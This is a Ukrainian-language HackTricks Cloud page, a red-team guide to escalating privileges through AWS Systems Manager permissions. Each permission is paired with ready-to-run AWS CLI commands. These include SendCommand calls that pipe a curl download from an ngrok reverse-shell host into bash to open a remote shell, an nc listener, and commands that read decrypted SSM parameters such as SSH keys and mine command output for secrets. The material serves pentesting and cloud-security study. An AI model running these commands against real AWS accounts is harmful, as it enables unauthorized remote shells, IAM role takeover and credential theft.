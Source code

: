 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Для отримання додаткової інформації про SSM перегляньте:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Зловмисник з дозволом **`ssm:SendCommand`** може **виконувати команди в екземплярах**, що працюють з Amazon SSM Agent, і **компрометувати IAM Role**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
У випадку, якщо ви використовуєте цю техніку для ескалації привілеїв всередині вже скомпрометованого EC2 екземпляра, ви можете просто захопити rev shell локально за допомогою:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM агентами.

### `ssm:StartSession`

Зловмисник з дозволом **`ssm:StartSession`** може **розпочати сесію, подібну до SSH, в екземплярах**, що працюють з Amazon SSM Agent, і **скомпрометувати IAM роль**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Щоб почати сесію, вам потрібно встановити **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM Agents.

#### Підвищення привілеїв до ECS

Коли **ECS завдання** виконуються з **увімкненим `ExecuteCommand`**, користувачі з достатніми правами можуть використовувати `ecs execute-command`, щоб **виконати команду** всередині контейнера.\
Згідно з [**документацією**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), це здійснюється шляхом створення безпечного каналу між пристроєм, який ви використовуєте для ініціювання команди “_exec_“, і цільовим контейнером за допомогою SSM Session Manager. (Необхідний плагін SSM Session Manager для цього)\
Отже, користувачі з `ssm:StartSession` зможуть **отримати оболонку всередині ECS завдань** з увімкненою цією опцією, просто виконавши:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Потенційний вплив:** Пряме підвищення привілеїв до `ECS` IAM ролей, прикріплених до запущених завдань з увімкненим `ExecuteCommand`.

### `ssm:ResumeSession`

Зловмисник з дозволом **`ssm:ResumeSession`** може повторно **розпочати сесію, подібну до SSH, на екземплярах**, що виконують Amazon SSM Agent з **відключеним** станом сесії SSM та **компрометувати IAM роль**, що виконується всередині неї.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM агентами та відключеними сесіями.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Зловмисник з вказаними дозволами зможе перерахувати **SSM параметри** та **читати їх у відкритому тексті**. У цих параметрах ви часто можете **знайти чутливу інформацію**, таку як SSH ключі або API ключі.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Потенційний вплив:** Знайти чутливу інформацію всередині параметрів.

### `ssm:ListCommands`

Зловмисник з цим дозволом може перерахувати всі **команди**, надіслані, і, сподіваючись, знайти **чутливу інформацію** в них.
```
aws ssm list-commands
```
**Потенційний вплив:** Знайти чутливу інформацію всередині командних рядків.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Зловмисник з цими дозволами може перерахувати всі **команди**, надіслані та **прочитати вихідні дані**, сподіваючись знайти **чутливу інформацію** в них.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині виходу командних рядків.

### Codebuild

Ви також можете використовувати SSM, щоб потрапити всередину проекту codebuild, що будується:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
